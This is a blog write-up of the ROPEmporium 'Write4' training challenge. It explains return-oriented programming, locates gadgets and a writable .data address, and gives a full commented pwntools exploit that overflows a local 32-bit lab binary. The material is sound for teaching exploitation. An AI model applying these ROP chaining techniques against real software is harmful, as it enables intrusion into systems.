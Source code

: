```yaml
---
title: ROPEmporium - Write4
date: 2022-10-11 12:00:00
categories: [Research, Exploits]
tags: [buffer-overflow, rop, exploit, python, pwntools, ropemporium]     # TAG names should always be lowercase
img_path: /assets/img/Other/ROPWrite4
---
```

For this second post about Binary Exploitation, I was originally going to do just one step up from [the last one](https://slimicide.github.io/posts/Basic-Buffer-Overflows/),
but then I decided the act of pushing arguments onto the stack for use in a function wasn't worth a whole post on its
own. So I have ultimately decided to kick it up a few notches and dive right into Write4 from [ROPEmporium](https://ropemporium.com/) and hopefully
fill in the blanks as I go.

The first post involved overflowing the buffer and overwriting EIP to return to the `win()` function. This post is
going to involve Return-Oriented Programming (ROP). To understand ROP, first you need to understand the `RET` instruction.

# Return-Oriented Programming
In some traditional beginner pwn challenges, the NX protection mentioned in the previous post will be disabled.
This means you can overflow the buffer, drop your shellcode on the stack, `jmp esp` and you have arbitrary code execution.<br>

In cases where NX protection is enabled, you cannot write and execute your own shellcode. This is where ROP comes in.
While the stack may not be executable, instructions inside the binary are. ROP is the process of taking instructions
within the binary and chaining them together in creative ways to achieve your goal. That's all well and good but how
do you go about chaining these random instructions together?

With the `RET` instruction.

Instructions that can be potentially used in ROP Chains are called ROP Gadgets. There is a reason not all instructions
are ROP Gadgets and it is because of the presence (or lack thereof) of the `RET` instruction.

The `RET` instruction is essentially an alias for `POP EIP`. When `RET` is executed, the value at the top of the stack
is popped into EIP to continue execution. We are granted full write access to the stack through the initial buffer overflow.
We get to control what address gets `RET`'d into EIP  and through that, we can generate our own chain of instructions
as long as those instructions end in `RET`.

If this isn't clear now, it will hopefully be clearer seeing it in action.

# Write4

RopEmporium doesn't provide source code with the challenges but they do give you a good idea of what to do. Write4
is a challenge centered on using ROP to write to memory. The goal is to write `flag.txt` to a writeable memory address
so we can use it as an argument to the `print_file()` function.

In the interest of saving time and not repeating stuff from the [first post](https://slimicide.github.io/posts/Basic-Buffer-Overflows/),
the offset to EIP is 44-bytes of junk data. Now we can start looking for ROP Gadgets.

Inside the binary's conveniently named `usefulGadgets()`function lies a gadget we can use to write to memory.

![usefulGadget](usefulGadget.png "usefulGadget")
_usefulGadget_

This gadget allows us to move the value stored in the EBP register to the address referenced by EDI. To make use of
this gadget, we're going to need a `POP EBP` gadget, a `POP EDI` gadget and finally a writeable address in memory, none
of which were particularly hard to find. Using `ropper`, I found a single gadget that'll handle both necessary `POP`
operations.

![popGadget](popGadget.png "popGadget")
_pop edi; pop ebp; ret;_

Using `readelf` to view sections of the binary, I found `.data` is writable and is 8-bytes in size at address `0x0804a018`.
It's the perfect size to fit `flag.txt` which is also 8-bytes. PIE is disabled so the address shown will work fine.

![writeLocation](writeLocation.png "writeLocation")
_.data_

There is one small catch. 32-bit memory addresses are just that, 32-bit. Each one can only hold 4-bytes. This means
in order to fit the full `flag.txt` in there, we're going to need to perform two writes: one with `flag`, the other with `.txt`.

There is one final thing to do before we can get writing an exploit. We need the address of the `print_file()` function.
It can be found inside `usefulFunction()`.

![usefulFunction](usefulFunction.png "usefulFunction")
_usefulFunction_

Now we have everything we need for an exploit.

# Building an Exploit

Here is what we have:
```
Offset to EIP:                          44 Bytes
Writeable Location in Memory:           0x0804a018
"POP EDI; POP EBP;" ROP Gadget:         0x080485aa
"MOV DWORD PTR [EDI], EBP" ROP Gadget:  0x08048543
"print_file" Function:                  0x08048538
```
Now we can begin constructing an exploit step-by-step:

Excessive commenting used to help follow what's going on.
```python
#!/bin/env python3

from pwn import *                    #Import the Pwntools library

offset = 44                          #Offset to EIP
location = 0x0804a018                #Writeable Location in Memory
pop_edi_pop_ebp = p32(0x080485aa)    #"POP EDI; POP EBP;" ROP Gadget packed by Pwntools
mov_ptr_edi_ebp = p32(0x08048543)    #"MOV DWORD PTR [EDI], EBP" ROP Gadget packed by Pwntools
print_file = p32(0x08048538)         #"print_file" Function packed by Pwntools

payload = b'A' * offset              #Generates 44-bytes of junk data

payload += pop_edi_pop_ebp           #EIP is set to our first gadget to kick off the chain, it will pop off the next two items on the stack.
payload += p32(location)             #Writeable Location will be popped by the previous gadget into EDI
payload += b"flag"                   #"flag" will be popped by the previous gadget into EBP
payload += mov_ptr_edi_ebp           #First RET lands here, the value in EBP (flag) will be written to the address referenced by EDI (Writeable Location)

#First write complete, "flag" is written to memory.
#In the second write, location will be offset by 4-bytes so as not to overwrite "flag"

payload += pop_edi_pop_ebp           #Second RET lands here, this gadget will pop off the next two items on the stack.
payload += p32(location+0x4)         #Writeable Location will be popped by the previous gadget into EDI, offset by 4 bytes to complete the write.
payload += b".txt"                   #".txt" will be popped by the previous gadget into EBP
payload += mov_ptr_edi_ebp           #Third RET lands here, the value in EBP (.txt) will be written to the address referenced by EDI (Writeable Location+0x4)

#Second write complete, "flag.txt" is written to memory at address: 0x0804a018
#Time to call print_file() and supply location as an argument.

payload += print_file                #Fourth RET lands here, call print_file
payload += p32(location)             #flag.txt supplied as argument to print_file

#Call Pwntools to run the binary and execute the exploit.

p = process("./write432")            #Start local process
p.sendlineafter(b"> ", payload)      #Send the crafted payload
p.interactive()                      #Receive all data
```
![exploit](exploit.png "exploit")
_Exploit_

# :)

